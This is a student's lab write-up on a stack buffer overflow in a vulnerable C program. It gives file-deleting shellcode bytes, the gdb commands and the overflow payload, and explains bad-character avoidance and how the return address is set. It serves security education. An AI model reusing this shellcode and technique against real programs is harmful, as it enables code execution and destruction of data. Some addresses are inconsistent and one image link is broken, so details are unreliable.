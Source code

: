 Name: Dinh Thi Thanh Vy
ID: 22110093

# Lab 2: 
## Task 1: Inject code to delete file
---
Source code asm
![alt text](./image/image-11.png)

Run virtual environment by docker file

![alt text](./image/image-12.png)

Run file asm and get the shellcode
![alt text](./image/image-13.png)
We have the shellcode for this program as follows:
\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00
We remove \xdummyfile because it is not meaningful hexadecimal code

**Stack Frame:**
![alt text](./image/image-14.png)

shell code: 36 bytes
Return address: 4 bytes
--> placement code: 32 bytes
Here, we will use the vuln.c program to trigger a buffer overflow

Connect to gdb
![alt text](./image/image-15.png)
>b *0x0804846b

Run vuln.c
>r $(python -c "print('\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-16.png)
We observe that the first 3 bytes still correspond to the shellcode, but starting from the 4th byte, which corresponds to the newline character 0x0a, the `strcpy` function terminates the string, causing the interruption.  

Observing the ASCII table, we need to avoid the following characters: 
- 0x00 because it marks the end of a string. 
- 0x09 because it's the tab character and would split the argument. 
- 0x0a because it's the newline character and would also terminate the string.

Additionally, 0x0a has a decimal value of 10, and upon reviewing the assembly code, we find:
![alt text](./image/image-17.png)

change file asm:
![alt text](./image/image-20.png)

Get shellcode again
>\xeb\x14\x31\xc0\xb0\x08\x04\x02\xbb\x7b\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe7\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\
![alt text](./image/image-19.png)

For now, we will set the bytes of the address to 0xff. The last used byte of the shellcode will be 0x0f to 
prevent string termination and to identify the position of the return frame.

>r $(python -c "print('\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0f'+'a'*32+'\xff\xff\xff\xff')")

![alt text](./image/image-22.png)

At this point, the program will likely report an error because it cannot find the address 0xffffffff. 

We need to set 0x0c to 0x00 at the address 0xffffd66b by using command: 
>set {unsigned char} 0xffffd66b = 0x00

we will replace the values of 0xffffffff with the address of the buffer, which is ffffd658, in the form of \x58\xd6\xff\xff. 
>set *0xffffd69c = 0xffffd658

The command will be: 
![alt text](./image/image-23.png)

Continue runing the program to test out

![alt text](./image/image-24.png)
Dummyfile is still here. Look at the assembly code!
>objdump -d file_del

![alt text](./image/image-25.png)

As we can see, the dummyfile is start from 0xffffd672 not from 0x080407a in C program!
We need to set 0xffffd651 to point at that using command: set *0xffffd661 = 0xffffd672
![alt text](./image/image-26.png)
ets/83b8577a-e3d5-44fa-aabe-0d191f149020)
contnue running the program 
![alt text](./image/image-27.png)

-->dummyfile is deleted


## Task 2: Conduct attack on ctf.c

